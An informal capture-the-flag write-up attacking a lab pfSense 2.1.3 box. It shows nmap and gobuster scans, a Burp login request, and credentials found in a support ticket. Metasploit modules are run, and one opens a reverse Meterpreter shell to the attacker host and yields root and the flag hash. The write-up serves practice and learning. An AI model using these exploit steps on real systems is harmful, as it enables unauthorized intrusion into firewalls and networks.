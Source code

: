80/tcp  open  http     lighttpd 1.4.35
|_http-title: Did not follow redirect to https://10.129.240.189/
|_http-server-header: lighttpd/1.4.35
443/tcp open  ssl/http lighttpd 1.4.35
|_ssl-date: TLS randomness does not represent time
|_http-server-header: lighttpd/1.4.35
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_http-title: Login

use burp suite

POST /index.php HTTP/1.1
Host: 10.129.240.189
Cookie: PHPSESSID=40355586b2007ce14d9310c2331b1a9e; cookie_test=1684611992
Content-Length: 181
Cache-Control: max-age=0
Sec-Ch-Ua: "Not:A-Brand";v="99", "Chromium";v="112"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
Origin: https://10.129.240.189
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/112.0.5615.138 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://10.129.240.189/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

__csrf_magic=sid%3A95ceb9ace98092112d10bbecc4ab90ad8e8d8abb%2C1684608392%3Bip%3A1a5d84206393f8d5fe7bbb0a112bb8cd5aee1dc2%2C1684608392&usernamefld=admin&passwordfld=admin&login=Login

default passwords dont work

tried couple of metasploit exploit

```
msf6 exploit(unix/http/pfsense_diag_routes_webshell) > run

[*] Started reverse TCP handler on 10.10.16.15:4444 
[*] Running automatic check ("set AutoCheck false" to disable)
[!] Cannot reliably check exploitability. Could not find pfSense title html tag ForceExploit is enabled, proceeding with exploitation.
[*] Uploading webshell to /jzbTasGHNas.php
[*] Testing if web shell installation was successful
[-] Exploit aborted due to failure: unexpected-reply: Unexpected HTTP status code 404
[*] Exploit completed, but no session was created.

```

gobuster -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u https://10.129.240.189 -k -x txt -t 250

gobuster dir --url https://10.129.240.189 --wordlist /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -k

feroxbuster failed miserably here

the changelog talks about a vulnerability

```
####Support ticket###

Please create the following user


username: Rohit
password: company defaults
```

used rohit and pfsense

 	2.1.3-RELEASE (amd64)
built on Thu May 01 15:52:13 EDT 2014
FreeBSD 8.3-RELEASE-p16

gobuster dir -u http://www.targetwebsite.com/ -w /usr/share/wordlists/big.txt -x php,html,htm

![](pfsense_ingress.png)

msf6 exploit(unix/http/pfsense_graph_injection_exec) > set username rohit
username => rohit
msf6 exploit(unix/http/pfsense_graph_injection_exec) > run

[*] Started reverse TCP handler on 10.10.16.15:4444 
[*] Detected pfSense 2.1.3-RELEASE, uploading intial payload
[*] Payload uploaded successfully, executing
[*] Sending stage (39927 bytes) to 10.129.240.189
[+] Deleted VwqmH
[*] Meterpreter session 1 opened (10.10.16.15:4444 -> 10.129.240.189:45651) at 2023-05-21 02:40:33 -0400

meterpreter > shell
Process 93785 created.
Channel 2 created.
bg
bg: No current job
ls
.tcshrc
user.txt
whoami
root
cd ..
cd /root
dir
dir: not found
ls 
.cshrc
.first_time
.gitsync_merge.sample
.hushlogin
.login
.part_mount
.profile
.shrc
.tcshrc
root.txt
cat root.txt
d08c32a5d4f8c8b10e76eb51a69f1a86







# lesson learnt

1. used go buster instead of feroxbuster sometimes mixing and matvhing the tools help

2. meterpreter session can grant you root shell !
